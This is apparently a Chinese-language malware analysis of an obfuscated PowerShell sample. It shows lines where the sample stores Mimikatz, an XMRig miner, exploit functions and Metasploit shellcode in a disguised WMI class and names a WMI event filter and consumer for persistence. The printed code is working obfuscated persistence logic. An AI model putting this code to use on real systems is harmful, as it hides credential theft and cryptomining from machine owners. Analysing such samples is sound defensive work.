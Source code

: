 82-84 行将原始样本最外层的变量赋值给新变量：

- `$mimi`: `$miiiiii`, Mimikatz
- `$mon`: `$mmmmmmm`, XMRig
- `$funs`: `$fffffff`, 漏洞利用函数
- `$sc`: `$ssssssss`, Metasploit ShellCode

```powershell linenums="82"
$mimi = $miiiiii
$mon = $mmmmmmm
$funs = $fffffff
$sc = $ssssssss
```

86-112 行准备 WMI 事件订阅所需的类和属性：

- `$StaticClass`: 名为 `Window_Core_Flush_Cach` 的 WMI 管理类，属性如下：
    - `mimi`, `mon`, `funs`, `sc`: 前面定义的恶意组件
    - `ver`: 版本号，`"1.3"`
    - `flag`: 上次执行时间，`0`
- `$runingFlag`: 记录 WMI 管理类创建操作是否成功
- `$filterName`: WMI 事件过滤器名称，`Systems Manage Filter`
- `$consumerName`: WMI 事件消费者名称，`Systems Manage Consumer`

```powershell linenums="86"
$runingFlag = $False
try{
    $StaticClass = N`E`w-obJEcT Management.ManagementClass((('ro'+'ot{0}de'+'f'+'a'+'ult')-F  [cHAR]92), $null,$null)
    $StaticClass.Name = ('Wind'+'ow_C'+'or'+'e_'+'Flush'+'_C'+'ach')
    $StaticClass.Put() | out-N`U`Ll
    $StaticClass.Properties.Add(('m'+'imi') , $mimi)
    $StaticClass.Put() | O`UT`-NUlL
    $StaticClass.Properties.Add(('m'+'on') , $mon)
    $StaticClass.Put() | ou`T-n`ULL
    $StaticClass.Properties.Add(('fu'+'ns') , $funs)
    $StaticClass.Put() | O`UT`-NULl
    $StaticClass.Properties.Add('sc' , $sc)
    $StaticClass.Put() | o`Ut`-NuLL
    $StaticClass.Properties.Add(('ips'+'u') ," ")
    $StaticClass.Put() | OUt-n`ULl
    $StaticClass.Properties.Add(('i'+'17') ," ")
    $StaticClass.Put() | OUt-N`UlL
    $StaticClass.Properties.Add(('v'+'er'), ('1.'+'3'))
    $StaticClass.Put() | o`Ut-N`Ull
    $StaticClass.Properties.Add(('fl'+'ag'), ('0'))
    $StaticClass.Put() | o`Ut-N`Ull
    $runingFlag = $True
} catch {
    $runingFlag = $False
}
$filterName = ('Sy'+'stem'+'s Man'+'age '+'Filt'+'er')
$consumerName = ('System'+'s Man'+'age C'+'on'+'sumer')
```
